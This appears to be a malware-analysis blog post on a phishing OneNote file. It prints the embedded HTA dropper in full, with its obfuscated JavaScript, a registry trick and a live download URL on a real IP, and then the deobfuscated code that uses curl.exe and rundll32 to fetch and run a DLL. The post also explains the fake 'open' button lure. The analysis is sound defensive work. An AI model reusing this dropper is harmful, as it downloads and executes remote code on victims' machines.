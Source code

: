 ```yaml
---
title: "Malicious OneNote File"
classes: wide
header:
  teaser: /assets/images/mal-docs/Malicious_OneNote/ground.png
ribbon: DodgerBlue
description: "Investigation for Phishing OneNote File ..."
categories:
  - Mal-Docs
toc: true
---
```


# Sample info

We are given a Sample OneNote file with hash 
    
    sha256 "a870d31caea7f6925f41b581b98c35b162738034d5d86c0c27c5a8d78404e860"

I always like to Start my analysis using the two utilities "file & strings"
So running file utility returned that.

![error loading](/assets/images/mal-docs/Malicious_OneNote/file.png)

Not so intersting i know, but Strings output looks very intersting.

![error loading](/assets/images/mal-docs/Malicious_OneNote/strings.png)

The JavaScript code here doesn't have that much of obfuscation. 

```html
<html>
<div id="content">f5&u5&n5&c5&t5&i5&o5&n5& 5&s5&l5&e5&e5&p5&(5&m5&i5&l5&l5&i5&s5&)5&{5&v5&a5&r5& 5&d5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5&v5&a5&r5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&u5&l5&l5&;5&d5&o5& 5&{5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5& 5&}5&w5&h5&i5&l5&e5&(5&c5&u5&r5&D5&a5&t5&e5& 5&-5& 5&d5&a5&t5&e5& 5&<5& 5&m5&i5&l5&l5&i5&s5&)5&;5&}5&/5&*5&*5& 5&v5&a5&r5& 5&u5&r5&l5& 5&=5& 5&"5&h5&t5&t5&p5&s5&:5&/5&/5&g5&o5&o5&g5&l5&e5&.5&c5&o5&m5&"5&;5& 5&*5&/5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&w5&s5&c5&r5&i5&p5&t5&.5&s5&h5&e5&l5&l5&"5&)5&.5&r5&u5&n5&(5&"5&c5&u5&r5&l5&.5&e5&x5&e5& 5&-5&-5&o5&u5&t5&p5&u5&t5& 5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5& 5&-5&-5&u5&r5&l5& 5&"5& 5&+5& 5&u5&r5&l5&,5& 5&05&)5&;5&s5&l5&e5&e5&p5&(5&15&55&05&05&05&)5&;5&v5&a5&r5& 5&s5&h5&e5&l5&l5& 5&=5& 5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&s5&h5&e5&l5&l5&.5&a5&p5&p5&l5&i5&c5&a5&t5&i5&o5&n5&"5&)5&;5&s5&h5&e5&l5&l5&.5&s5&h5&e5&l5&l5&e5&x5&e5&c5&u5&t5&e5&(5&"5&r5&u5&n5&d5&l5&l5&35&25&"5&,5& 5&"5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5&,5&W5&i5&n5&d5&"5&,5& 5&"5&"5&,5& 5&"5&o5&p5&e5&n5&"5&,5& 5&35&)5&;5&</div>
<script language="javascript">
var h3 = "800de15c79c8d840f4e78d3af937d4d4";
var content = document.getElementById("content").innerText;
</script>
<script language="vbscript">
Dim WshShell : Set WshShell = CreateObject("WScript.Shell")
' Write reg
WshShell.RegWrite "HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg", content, "REG_SZ"
' msgbox WshShell.RegRead("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
</script>
<script language="javascript">
var body = WshShell.RegRead("HKCU\\SOFTWARE\\Xeonitox\\MP3Conv\\Cfg");
var func = Function("url", body.replace(/5&/g, ""));
func("http://139.99.117.17/39444.dat");
</script>
<script language="vbscript">
WshShell.RegDelete("HKCU\SOFTWARE\Xeonitox\MP3Conv\Cfg")
' Close window
window.close
</script>
</html>
```

It's just a simple replacement for the "5&" with nothing.
here is the deobfuscated code.

```js
function sleep(millis){
  var date = new Date();
  var curDate = null;
  do { 
    curDate = new Date();
     }
     while(curDate - date < millis);
   }/** var url = "https://google.com"; */
   new ActiveXObject("wscript.shell").run("curl.exe --output C:\\ProgramData\\index1.png --url " + url, 0);
   sleep(15000);
   var shell = new ActiveXObject("shell.application");shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);
```
The Script is prety easy it's just downloading a file from a remoteserver and executing it using "rundll32" So it's downloading a dll file and passing the parameter "wind" to the rundll32 also with a parameter to png file which may be for evasion reaasons.

# Tricking method

The most popular way for tricking user to trigger the payload in OneNote can be shown in the following picture.

![error loading](/assets/images/mal-docs/Malicious_OneNote/ground.png)

This is the what you will see if you opened the note, as you can imagine the only thing you can do is clicking the open button.
But actually it's not a button, it's a small picture that alligned above an HTA file which is the script we saw before.
So clicking the open button is actually triggering the HTA file.

![error loading](/assets/images/mal-docs/Malicious_OneNote/ground2.png)

